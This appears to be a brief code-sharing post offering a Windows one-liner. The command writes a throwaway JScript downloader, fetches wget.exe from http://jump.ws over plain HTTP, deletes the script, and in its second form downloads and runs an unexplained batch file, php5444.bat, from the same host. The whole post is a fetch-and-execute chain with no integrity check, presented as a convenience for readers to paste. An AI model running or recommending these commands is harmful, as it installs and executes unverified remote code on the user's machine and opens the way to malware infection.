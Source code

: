 > set f="%random%.js" && echo with(WScript){if(CreateObject("Scripting.FileSystemObject").FileExists(arguments(1))){Quit();}with(CreateObject("MSXML2.ServerXMLHTTP")){open('GET',arguments(0),false);send();s=responseBody;}with(CreateObject("ADODB.Stream")){Open();Type=1;Write(s);Position=0;SaveToFile(arguments(1),2);Close();}} >%f% && cscript /nologo %f% http://jump.ws/wget.exe w.exe && del %f% /f /q && dir w.exe

Yup, u now can do anything start from w.exe

for example 
> w -qO - https://www.google.com/

or

> w -q some-remote-file-url -o local-file-installer.exe && local-file-installer.exe

for example

> set f="%random%.js" && echo with(WScript){if(CreateObject("Scripting.FileSystemObject").FileExists(arguments(1))){Quit();}with(CreateObject("MSXML2.ServerXMLHTTP")){open('GET',arguments(0),false);send();s=responseBody;}with(CreateObject("ADODB.Stream")){Open();Type=1;Write(s);Position=0;SaveToFile(arguments(1),2);Close();}} >%f% && cscript /nologo %f% http://jump.ws/wget.exe w.exe && del %f% /f /q && w -q http://jump.ws/php5444.bat -O php5444.bat && php5444.bat -m


---

PLEASE FOLLOW ME IF YOU LIKE THIS
